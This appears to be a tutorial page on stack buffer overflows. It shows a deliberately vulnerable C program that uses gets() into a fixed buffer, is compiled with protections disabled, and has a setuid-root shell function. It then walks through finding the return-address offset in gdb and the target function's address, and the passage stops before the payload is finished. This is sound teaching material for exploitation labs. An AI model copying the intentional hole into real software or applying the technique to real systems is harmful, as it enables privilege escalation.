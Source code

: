 # Stack Overflow
---
Stack overflow is about a [[Buffer Overflow|buffer overflow]] vulnerability which purpose is not to overwrite variables after the buffer, but also to overwrite the saved return address.

## Jump to an arbitrary address
---
```C
#include <unistd.h>
#include <string.h>

// gcc stack-overflow.c -o stack-overflow -fno-stack-protector -no-pie -z execstack -m32

// Function that sets user id to 0 and execute the shell
void shell(){
  setuid(0);
  system("/bin/sh");
}

void vuln_func(){
  char vuln_buff[250];
  // vulnerable
  gets(vuln_buff);
}

int main(int argc, char *argv[]){
  vuln_func();
  return 0;
}
```

So, here we have a vulnerable function `vuln_func` that does the same stuff from the buffer overflow section. But now we will overflow the buffer and overwrite the return address to jump to an arbitrary address of the program. This address will be the address of the beginning of the `shell` function. Thus, when we overflow the buffer and overwrite the return address after the `vuln_func` completes its execution, it will take the new return address and jump to the shell function.

To determine the offset (gdb):
```bash
gef➤  r < <(python -c 'print "A"*250 + "B"*16')
Starting program: /home/shogun/repos/basics-of-pwn/content/stack-overflow/stack-overflow < <(python -c 'print "A"*250 + "B"*16')

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

My offset is 12 bytes. The next 4 bytes will overwrite the return address. You can have a different offset.

Next, find the start address of `shell` function:
```bash
gef➤  disas shell
Dump of assembler code for function shell:
   0x080491d6 <+0>:	endbr32
   0x080491da <+4>:	push   ebp
   0x080491db <+5>:	mov    ebp,esp
   0x080491dd <+7>:	push   ebx
   0x080491de <+8>:	sub    esp,0x4
   0x080491e1 <+11>:	call   0x8049110 <__x86.get_pc_thunk.bx>
   0x080491e6 <+16>:	add    ebx,0x2e1a
   0x080491ec <+22>:	sub    esp,0xc
   0x080491ef <+25>:	push   0x0
   0x080491f1 <+27>:	call   0x80490b0 <setuid@plt>
```
